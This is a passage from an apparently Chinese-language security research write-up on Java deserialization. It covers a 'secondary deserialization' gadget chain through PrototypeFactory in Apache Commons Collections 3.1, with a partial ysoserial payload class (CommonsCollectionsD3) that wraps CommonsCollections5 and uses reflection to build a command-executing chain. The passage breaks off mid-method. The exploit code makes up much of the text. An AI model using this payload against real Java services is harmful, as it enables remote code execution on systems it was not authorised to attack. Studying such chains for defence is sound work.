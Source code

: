 #### 二次反序列化

![image-20230204121621037](images/37.png)

后面的sink点事通过二次反序列化实现的，但这个二次反序列化也有些鸡肋，因为二次反序列化的对象是成员变量的序列化结果，和一般的那些使用字节码数组或者base64存储序列化结果的二次反序列化不太一样，所以这里还是会被类似JEP290的过滤器过滤

既然也是一个create方法，那么前面的链子和刚才没有差别，只是在create方法这里变成了PrototypeFactory类，只是这个类是个内部类，需要用反射区调用构造方法控制iPrototype

poc如下，为了方便，把它放在了ysoserial下执行

```
package ysoserial.payloads;

import org.apache.commons.collections.Factory;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.map.DefaultedMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

@SuppressWarnings({"rawtypes", "unchecked"})
@Dependencies({"commons-collections:commons-collections:3.1"})
public class CommonsCollectionsD3 extends PayloadRunner implements ObjectPayload<HashMap> {

    // Todo:二次反序列化，在其他序列化方式中还是有一定价值的
    public HashMap getObject(final String command) throws Exception {

        Object object = new CommonsCollections5().getObject(command);

        Class<?> factoryCls = Class.forName("org.apache.commons.collections.functors.PrototypeFactory$PrototypeSerializationFactory");
        Constructor<?> cons = factoryCls.getDeclaredConstructor(Serializable.class);
        cons.setAccessible(true);
        Factory factory = (Factory) cons.newInstance(object);
        FactoryTransformer transformer = new FactoryTransformer(factory);

```